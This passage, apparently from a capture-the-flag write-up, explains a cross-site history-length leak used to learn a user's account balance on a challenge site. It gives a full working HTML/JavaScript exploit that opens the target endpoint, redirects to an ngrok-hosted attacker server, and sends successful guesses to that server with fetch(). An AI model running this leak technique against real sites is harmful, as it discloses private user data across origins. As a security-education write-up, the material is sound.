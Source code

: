 To obey the Same Origin Policy (SOP), we would need to do the following:

1. From the exploit server, open `http://10.8.201.87:5000/checkbalance?amount=${num}` as a new window.
2. Wait for the site to load. Depending on the balance, the window may be redirected to `/`.
3. Change the window's location back to the exploit server, so that both the original and new windows are of the same origin
4. We can now check the window's `history.length` attribute to determine if a redirect occurred in step 2.

After some trial and error, here's my final script.

```markup
<html>
    <body>
        <script>

            const sleep = (ms) => {
                return new Promise(resolve => setTimeout(resolve, ms));
            }

            const tryNumber = async (num) => {

                let opened = window.open(`http://10.8.201.87:5000/checkbalance?amount=${num}`);
                await sleep(2000);
                opened.location = "http://24cf-115-66-128-224.ngrok.io/nothing.txt";
                await sleep(2000);
                console.log(opened.history.length)
                if (opened.history.length === 3) {
                    return [false, num];
                }
                else {
                    return [true, num];
                }
            }

            (async () => {
                for (let i = 97280; i <= 97290; i+=1) {
                    tryNumber(i).then(res => {
                        let [success, guess] = res;
                        console.log(guess, success);
                        if (success === true) {fetch("http://24cf-115-66-128-224.ngrok.io/" + `${guess}`)}
                    })
                }
            })();
        </script>
    </body>
</html>
```

On line 25, I started with larger intervals, then slowly narrowed down the exact value by decreasing the interval range.
